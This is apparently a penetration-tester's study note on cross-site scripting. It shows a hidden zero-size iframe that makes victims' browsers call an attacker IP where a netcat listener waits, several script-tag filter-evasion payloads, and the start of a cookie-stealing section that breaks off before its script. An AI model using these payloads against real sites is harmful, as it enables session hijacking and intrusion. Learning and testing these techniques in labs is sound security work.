 ### Cross-Site Scripting (XSS)

#### Content Injection

Commands can be injected into forms then when they are displayed, they will execute on the client.

Example:  Redirect client to another site through iframes.  The height & width are set to 0 so that nothing will show up.

1. Setup a netcat session on the attacking machine to receive the request from the target.

2. Load this into a page and the client will connect to the netcat session.

   ```html
   <iframe src=http://192.168.119.216:8000/report height="0" width="0"></iframe>
   ```

3. When the client loads the code, the results will pop up in Netcat

#### Script Sanitization

Good programming will have sanitizers in place that will check input and remove any tags from it.  You can test out the filters and try a few ways to beat this.  Insert these into the vulnerable form and see what the results is.  You will likely need to check the page source to see what was actually returned.

1. If `<script>` is being stripped from your input, you should try the following to check whether all instances are being removed or if just the first instance is removed:

   `<script><script>alert(1)</script>`

2. Check whether the sanitization is being performed recursively, meaning does the filter keep moving once it finds and instance or does it back up and re-check the previous text:

   `<scr<script>ipt>alert(1)</script>`

3. If it does check recursively, you can test the order that it checks for tags to see if it only checks for a certain tag before another tag:
   `<scr<object>ipt>alert(1)</script>`

Ref: https://portswigger.net/support/xss-beating-html-sanitizing-filters

Exhaustive list of filter evasion techniques:  https://owasp.org/www-community/xss-filter-evasion-cheatsheet

#### Steal Cookies & Session Info

Cookies are used to track session states.

There are two special flags that can block access to the cookie:

- Secure - This instructs the browser to only send the cookie over encrypted connections, like HTTPS, preventing it from being sent in cleartext & captured
- HttpOnly - Instructs the browser to deny JavaScript access to the cookie.  If this is NOT set, we can use an XSS payload to steal it.

1. Setup a netcat session on the attacking machine to receive the request from the target.

2. Load this script on a page that an admin will access:

